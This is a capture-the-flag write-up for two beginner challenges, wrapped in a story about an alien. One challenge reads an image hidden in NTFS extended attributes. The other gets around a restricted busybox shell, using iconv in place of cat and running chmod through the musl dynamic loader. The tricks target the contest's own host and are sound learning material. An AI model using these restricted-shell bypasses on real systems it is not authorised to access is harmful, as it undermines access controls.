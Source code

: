Your Choice!


    Having found the information you were looking for, while detailed, 
    it presents you with an interesting dilemma. There is a network of 
    "computers" not completely dissimilar to your computrator-machine 
    on your ship. You find yourself in possession of the credentials of 
    an individual on the planet named "SarahH." Great, with these you 
    can get right into the secret world of an earthling without them 
    knowing you're there. You access "SarahH home network," to find two 
    computers: "work" and "home." Not knowing what either of these are, 
    you have to make a decision.


No decisions, no compromises - we will hack both. Or else why we are 
sitting with laptop at home in such a great summer weekend?

Start with Home computer (easier).

Home Computer (**forensics**)

    Blunderbussing your way through the decision making process, you 
    figure that one is as good as the other and that further research 
    into the importance of Work Life balance is of little interest to 
    you. You're the decider after all. You confidently use the 
    credentials to access the "Home Computer."

    Something called "desktop" presents itself, displaying a 
    fascinating round and bumpy creature (much like yourself) labeled  
    "cauliflower 4 work - GAN post."  Your 40 hearts skip a beat.  It 
    looks somewhat like your neighbors on XiXaX3.   ..Ah XiXaX3... 
    You'd spend summers there at the beach, an awkward kid from 
    ObarPool on a family vacation, yearning, but without nerve, to talk 
    to those cool sophisticated locals.

    So are these "Cauliflowers" earthlings? Not at all the unrelatable 
    bipeds you imagined them to be.  Will they be at the party?  
    Hopefully SarahH has left some other work data on her home computer 
    for you to learn more.

Unzipping attachment we can see technical `note.txt` that is not for me.
And `family.ntfs`, the name of this file speaks for it, but we can 
check it:

    $ file family.ntfs 
    family.ntfs: DOS/MBR boot sector, code offset 0x52+2, OEM-ID "NTFS    ", sectors/cluster 8, Media descriptor 0xf8, sectors/track 0, dos < 4.0 BootSector (0x80), FAT (1Y bit by descriptor); NTFS, sectors 51199, $MFT start cluster 4, $MFTMirror start cluster 3199, bytes/RecordSegment 2^(-1*246), clusters/index block 1, serial number 072643f694104cb6f

Ok, just mount it then.

    $ mkdir ntfs
    $ sudo mount family.ntfs ntfs

Quick look tells us that volume is full of empty files. Do find 
non-empty with `find` utility:

    $ find ntfs -size +0 -type f
    ntfs/Users/Family/Documents/credentials.txt
    $ cat ntfs/Users/Family/Documents/credentials.txt 
    I keep pictures of my credentials in extended attributes.

Well, reading file attributes is extremely easy:

    $ getfattr --only-values ntfs/Users/Family/Documents/credentials.txt > attrs
    $ file attrs
    attrs: PNG image data, 1234 x 339, 8-bit/color RGB, non-interlaced

Open it with any image viewer and get the flag:

**CTF{congratsyoufoundmycreds}**


Now back to the work computer.

Work Computer (ORME) (**sandbox**)

    With the confidence of conviction and decision making skills that 
    made you a contender for Xenon's Universal takeover council, now 
    disbanded, you forge ahead to the work computer. This machine 
    announces itself to you, surprisingly with a detailed description 
    of all its hardware and peripherals. Your first thought is "Why 
    does the display stand need to announce its price? And exactly how 
    much does 999 dollars convert to in Xenonivian Bucklets?" You 
    always were one for the trivialities of things. Also presented is 
    an image of a fascinating round and bumpy creature, labeled 
    "Cauliflower for cWo" - are "Cauliflowers" earthlings? Your 40 
    hearts skip a beat - these are not the strange unrelatable bipeds 
    you imagined earthings to be.. this looks like your neighbors back 
    home. Such curdley lobes. Will it be at the party? SarahH, who 
    appears to be a programmer with several clients, has left open a 
    terminal. Oops. Sorry clients! Aliens will be poking around 
    attempting to access your networks.. looking for Cauliflower. That 
    is, *if* they can learn to navigate such things.

There is some network address, let's try to connect to it.

    $ nc readme.ctfcompetition.com 1337
    > whoami
    whoami: unknown uid 1338
    > ls -l
    total 8
    ----------    1 1338     1338            33 Jun 25 19:21 ORME.flag
    -r--------    1 1338     1338            28 Jun 25 19:21 README.flag
    > cat README.flag
    error: No such file or directory

Well, we have a shell, we have two files that must be read, but we 
have not `cat` (and `grep`). We plan to read both, of course.
Let's have a look what we have then.

    > ls -l /bin /sbin /usr/bin /usr/sbin                                         
    /bin:
    total 800
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 arch -> /bin/busybox
    -rwxr-xr-x    1 65534    65534       796240 Jan 24 07:45 busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 chgrp -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 chown -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 conspy -> /bin/busybox
    ..............
    /sbin:
    total 228
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 acpid -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 adjtimex -> /bin/busybox
    ..............
    /usr/bin:
    total 1984
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 [ -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 [[ -> /bin/busybox
    ..............
    -rwxr-xr-x    1 65534    65534        25216 Mar 19 09:56 iconv
    ..............
    -rwxr-xr-x    1 65534    65534        83744 Nov 15  2018 scanelf
    ..............
    /usr/sbin:
    total 16
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 addgroup -> /bin/busybox
    lrwxrwxrwx    1 65534    65534           12 May  9 20:49 adduser -> /bin/busybox
    ..............
    > 

Wow, a lot of stuff! First of all, this is Busybox system. It means 
that most of utilities are embedded in `busybox` executable and almost 
all other are just symlinks to it. Busybox first checks `argv[0]` value 
and executed appropriate piece of code. But also certain utility can be 
invoked by executing `busybox` directly and giving it proper arguments.
Try it:

    > busybox cat README.flag
    busybox can not be called for alien reasons.

Aha, this is modified version of busybox. After all, it would be too 
easy.
But still there are A LOT of stuff. And a lot of possible solutions. 
If we have little or no expirience with unix-like environments, then we 
can just go through the list command-by-command and read each man-page 
on the web. Quickly we can find, for example, that `iconv` utility can 
be used to read any file and print it to the terminal possibly but not 
necessary doing codepage conversion. Give it a try:

    > iconv README.flag
    CTF{4ll_D474_5h4ll_B3_Fr33}
    > iconv ORME.flag
    iconv: ORME.flag: Permission denied

First flag is ours:

**CTF{4ll_D474_5h4ll_B3_Fr33}**

For the second one we need to find a way to change it's permission 
flags. Fortunately we are the owner of this file and are capable to 
change it's permissions. Unfortunately, `chmod` utility is abscent.
It is obvious, that `chmod` symlink is removed, but code of it is still 
contained in `busybox`. And maybe in some other places. Check it:

    > scanelf -s chmod -R /
     TYPE   SYM FILE 
    ET_DYN chmod /lib/libcrypto.so.1.1 
    ET_DYN chmod /lib/ld-musl-x86_64.so.1 
    ET_DYN chmod /usr/bin/upx 
    ET_DYN chmod /bin/busybox 

Yep, it is there. And `upx` utility looks very suspicious and certainly 
can be used to solve issue. But let's do some googling first, it is 
their contest after all!
Googling "*change permissions without chmod*" immidiately leads us to 
the StackOverflow page with description of trick with loader 
`/lib/ld-linux.so`. Just use it to run `busybox` and `chmod` in it:

    > ls /lib
    apk
    firmware
    ld-musl-x86_64.so.1
    libc.musl-x86_64.so.1
    libcrypto.so.1.1
    libssl.so.1.1
    libz.so.1
    libz.so.1.2.11
    mdev
    > /lib/ld-musl-x86_64.so.1 /bin/busybox chmod +r ORME.flag
    > ls -l
    total 8
    -r--r--r--    1 1338     1338            33 Jun 25 19:51 ORME.flag
    -r--------    1 1338     1338            28 Jun 25 19:51 README.flag
    > iconv ORME.flag
    CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}

**CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}**
